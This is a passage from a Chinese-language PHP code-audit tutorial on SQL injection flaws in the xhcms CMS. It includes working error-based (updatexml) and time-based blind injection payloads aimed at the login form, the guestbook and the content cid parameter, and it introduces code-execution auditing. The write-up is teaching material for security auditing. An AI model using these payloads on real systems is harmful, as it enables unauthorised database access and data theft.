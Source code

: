 很明显 带入查询的 user 没有经过任何过滤，同时输出了错误，所以可以用报错查询，当然你也选择万能密码。

**payload:**

```
user=1111' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- +&password=111&login=yes

```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmkYdyyhQvyb9oYplehsdKUamt8nx0VuWbdcJReQ5nN5n0R5r7WLwTrA/640?wx_fmt=png)  

在看看留言板 **files/submit.php**

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmk4v1NLj1RX9o4oOFqFOZDA2hPw8G7g2WZHUsuWGAGASqchdVJTibHCQ/640?wx_fmt=png)

传入参数没有过滤

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmyOKWib17vRjKicSibicInlFj7DvrvKoS7JXoAuE7hM39iaXrKYFIia5t1NLg/640?wx_fmt=png)

同时插入的时候，这里使用了**`mysql_error()`**所以可以用报错注入，否则只能使用盲注了。

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmNkHHjruSy6gZYmST3YibhBGzjCFrhRmq8kemmXsooAA82caVtnw1LSg/640?wx_fmt=png)

**payload:**

```
cid=0&name='or updatexml(1,concat(0x7e,(version())),0) or'&mail=1111&url=http%3A%2F%2F1&content=%E9%98%BF%E5%BE%B7&save=%E6%8F%90%E4%BA%A4&randcode=&jz=1&tz=1

```

```
开始我们说过不是使用了过滤函数就万事大吉了，数字型注入可以不使用引号


```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmQ7CiaJ88RZnnOaIP8VWrbXII8mq34cVvoWFadYIXicJJw1pYcbZdTTng/640?wx_fmt=png)

我们看到传入的`cid`已经被**`addslashes()`**函数转义了，查询的地方都没啥问题，但是到浏览计数的时候调用了它，那么我们就可以使用盲注或者报错注入了，因为有错误回显。  

**payload：**

```
http://127.0.0.1/xhcms/?r=content&cid=1%20and%20If(ascii(substr(database(),1,1))%3C10,0,sleep(10))

```

这个系统还有其他注入，想练手的自己下载审计一下，总体思路有用户交互的地方  

都有可能存在注入，这也是我们没有通读代码的一个审计思路。

**0x003 代码执行审计**
================

### **0x00 简介**

代码执行也是我们经常遇到的，通常是**`eval()`、`assert()`，**当然还有回调函数比如**`call_user_func()` `array_map()`，正则函数，动态调用**等等，因为程序对传入的参数过滤不严或者没有过滤，导致代码执行，看过我前面写的 php 的 webshell 总结的话，你就会发现很多知识是相辅相成的。
